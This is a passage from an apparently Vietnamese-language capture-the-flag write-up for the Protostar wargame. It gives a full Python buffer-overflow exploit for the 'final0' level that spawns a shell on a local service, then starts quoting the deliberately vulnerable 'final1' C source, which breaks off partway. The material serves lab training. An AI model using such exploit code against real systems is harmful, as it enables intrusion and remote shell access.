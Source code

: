 Hoàn thành script:
```py
import struct
import socket
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 2995))

buf = "a" * 510 + "\x00" + "aaaabbbbccccddddeeeef"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 0xb7e97000 + 1176511)
exploit = buf + execve + "aaaa" + binsh + "\x00" * 8

s.send(exploit + "\n")
t = telnetlib.Telnet()
t.sock = s
t.interact()
```
Kết quả:

![alt text](image-4.png)

### Final 1
```c
#include "../common/common.c"

#include <syslog.h>

#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994

char username[128];
char hostname[64];

void logit(char *pw)
{
  char buf[512];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);

  syslog(LOG_USER|LOG_DEBUG, buf);
}

void trim(char *str)
{
  char *q;

  q = strchr(str, '\r');
  if(q) *q = 0;
  q = strchr(str, '\n');
  if(q) *q = 0;
}

void parser()
{
  char line[128];

```